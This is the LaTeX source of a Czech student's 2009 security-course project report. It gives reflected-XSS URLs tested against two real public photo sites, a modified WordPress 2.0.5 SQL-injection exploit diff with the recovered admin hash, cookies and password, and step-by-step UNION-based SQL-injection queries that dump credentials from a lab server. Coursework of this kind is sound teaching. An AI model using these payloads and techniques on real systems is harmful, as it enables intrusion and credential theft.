%
% Encoding: utf-8
% Project:	BIS, 1st project
% Author:	Petr Zemek, xzemek02@stud.fit.vutbr.cz, 2009
%
% Project documentation.
%
\documentclass[a4paper,10pt]{article}

% Packages
\usepackage[utf8]{inputenc}
\usepackage{czech}
\usepackage{url}
\usepackage{graphicx}

% View
\setlength{\hoffset}{-1.5cm}
\setlength{\voffset}{-1.5cm}
\setlength{\textheight}{23.0cm}
\setlength{\textwidth}{15.2cm}

% Paragraph formatting - no indents
\setlength{\parskip}{1.3ex plus 0.2ex minus 0.2ex}
\setlength{\parindent}{0pt}

% Text
\begin{document}

% Title
\begin{center}
	\begin{Large}\textbf{Řešení 1. projektu do předmětu BIS}\end{Large} \\

	\vspace{0.4cm}

	Petr Zemek \\
	\emph{xzemek02@stud.fit.vutbr.cz} \\
	\emph{Faculty of Information Technology} \\

	\vspace{0.4cm}

	26.10.2009
\end{center}

\section*{Část 1}

\subsection*{1. web}

\textbf{Server:} \verb!photobucket.com!

\textbf{Zranitelná stránka:} \verb!http://photobucket.com/faq!

\textbf{XSS kód vykonávající zranitelnost:} \\
\verb!http://photobucket.com/faq?catID=1"></a><script>alert(document.cookie);</script><a!

\begin{center}
	
\includegraphics[width=14cm,keepaspectratio]{include/xss1}
\end{center}

\subsection*{2. web}

\textbf{Server:} \verb!fotolog.com!

\textbf{Zranitelná stránka:} \verb!http://www.fotolog.com/uživatel/! (např. \verb!http://www.fotolog.com/skunkills/!)

\textbf{XSS kód vykonávající zranitelnost:} \\
\verb!http://www.fotolog.com/skunkills/"><script>alert(document.cookie)</script>!

\begin{center}
	
\includegraphics[width=14cm,keepaspectratio]{include/xss2}
\end{center}

\section*{Část 2}

\textbf{Tajná informace:} 5f64af8aa59512d57e54425cd8c989f2

\textbf{Čas získání:} 24.10.2009 13:47

\subsubsection*{Popis získání tajné informace}

\begin{itemize}
	\item Zobrazil jsem si zdrojový kód stránky, z něj jsem si zjistil hodnotu proměnných
	\texttt{username} a \texttt{password} (k jejich poslednímu nastavení dochází až
	při zpracování scriptu v souboru \texttt{JavaScript}) a pomocí nich jsem se
	přihlásil.
\end{itemize}

\section*{Část 3}

\textbf{Tajná informace:} ba007c20079695250bceef1eb277f357

\textbf{Heslo k účtu admin:} p4ssWd

\textbf{Čas získání:} 25.10.2009 23:10

\subsubsection*{Popis získání tajné informace}

\begin{itemize}
	\item Zjistil jsem si verzi WordPressu (podle vygenerovaného HTML kódu se jednalo o verzi 2.0.5).

	\item Stáhnul jsem si exploit, který měl využívat zranitelnost v této verzi (UTF-7 SQL Injection) \\
		(\verb!http://milw0rm.com/exploits/3095!). \\
		Tento exploit umožňuje zjistit hash uživatelského hesla pomocí útoku typu SQL injection. Hash hesla
		je získán postupně -- bit po bitu.

	\item Tento exploit jsem musel upravit, protože nefungoval korektně (na daném MySQL serveru nebyly
		podporovány použité komentáře a také hláška u nulového bitu v hashi byla u serveru jiná).
		Provedl jsem následující úpravy (diff oproti verzi z Internetu):
		\begin{verbatim}
		237c237
		>     sql = sql + " and substring(reverse(lpad(conv(substring(user_pass, %d,1), 16, 2),
		4,'0')),%d,1)='1' UNION SELECT 1 FROM wp_comments WHERE '' = ('" % (nibble, bit)
		---
		<     sql = sql + " and substring(reverse(lpad(conv(substring(user_pass, %d,1), 16, 2),
		4,'0')),%d,1)='1' /*" % (nibble, bit)
		253c253
		>     if string.find(content, 'error') != -1:
		---
		<     if string.find(content, '15 Sekunden') != -1:
		337c337
		>     # checkUsername(host, pid, prefix, username, uid)
		---
		<     checkUsername(host, pid, prefix, username, uid)
		\end{verbatim}

	\item Spustil jsem tento upravený exploit s parametry (\texttt{3} je číslo příspěvku a \texttt{admin} je
		uživatelské jméno administrátora -- to jsem zjistil z přihlašovací stránky, kdy po zadání uživatelského jména
		\texttt{admin} to napsalo, že bylo zadáno špatné heslo k zadanému účtu): \\
		\texttt{-h https://minotaur.fi.muni.cz:8443/\textasciitilde xkumpost/bis/part2/ -p 3 -u admin}.

	\item Vypsalo mně to (mimo jiné):
		\begin{verbatim}
			The password hash is f5e77873ca032a1624362f8f98e6e172
			The logincookies are:
				wordpressuser_55a2fec74fca090bc2d30d1bfc5703b4=admin
				wordpresspass_55a2fec74fca090bc2d30d1bfc5703b4=01f06c01e1569bb65c7c37955aa7722d
		\end{verbatim}

	\item Pomocí webu \verb!http://tools.benramsey.com/md5/! jsem z toho hashe zjistil heslo k účtu admin (šlo by to i přes cookies, ale tohle bylo jednodušší).

	\item Pomocí tohoto hesla jsem se přihlásil do administračního rozhraní a zde zjistil tajnou informaci z příspěvku.
\end{itemize}

\section*{Část 4}

\textbf{Tajemství k mému loginu:} df825b9e30f6e72dabd5ee07eea4bd93

\textbf{Čas získání:} 24.10.2009 16:55

\subsubsection*{Popis získání tajemství}

V následujícím postupu je u jednotlivých URL z důvodů přehlednosti zanedbána adresa webu (\verb!https://minotaur.fi.muni.cz:8443/~xkumpost/bis/part3/sql_injection/!).

\begin{itemize}
	\item Zjistil jsem, že používaná databáze je MySQL (z chybové hlášky
	\texttt{Warning: mysql\_fetch\_array(): supplied argument is not a valid
		MySQL result resource}) a že hodnota parametru \texttt{tt} v URL není
		\uv{escapovaná} před použitím v SQL dotazu: \\[0.3cm]
		\verb!?tt='!

	\item Zjistil jsem si počet sloupců tabulky, ze které se získávají vstupní data (postupně
		jsem zkoušel čísla od jedničky, až to nevyhazovalo chybu; tabulka má 5 sloupců).
		\texttt{\%20} je mezera za pomlčkami, která tam musí být -- jinak by se nejednalo o platný komentář. \\[0.3cm]
		\verb!?tt=' union select 1,2,3,4,5 --%20!

	\item Zjistil jsem si názvy tabulek v databázi z MySQL tabulky
		\texttt{information\_schema.tables} (objevil jsem dvě -- \texttt{my\_articles} a
		\texttt{user\_credentials}): \\[0.3cm]
		\verb!?tt=' union select 1,table_name,3,4,5 from information_schema.tables limit 28,1--%20! \\
		\verb!?tt=' union select 1,table_name,3,4,5 from information_schema.tables limit 29,1--%20!

	\item Zjistil jsem si názvy sloupců v tabulce \texttt{user\_credentials}, která by měla
		obsahovat tajnou informaci (tabulka má dva sloupce -- \texttt{login} a \texttt{passwd}): \\[0.3cm]
		\verb!?tt=' union select 1,column_name,2,3,4 from information_schema.columns where ! \\
		\verb!table_name = 'user_credentials' limit 0,1--%20! \\
		\verb!?tt=' union select 1,column_name,2,3,4 from information_schema.columns where ! \\
		\verb!table_name = 'user_credentials' limit 1,1--%20!

	\item Zjistil jsem tajnou informaci příslušející k mému loginu: \\[0.3cm]
		\verb!?tt=' union select 1,login,passwd,3,4 from user_credentials where ! \\
		\verb!login like '%xzemek02%'--%20!
\end{itemize}

\end{document}
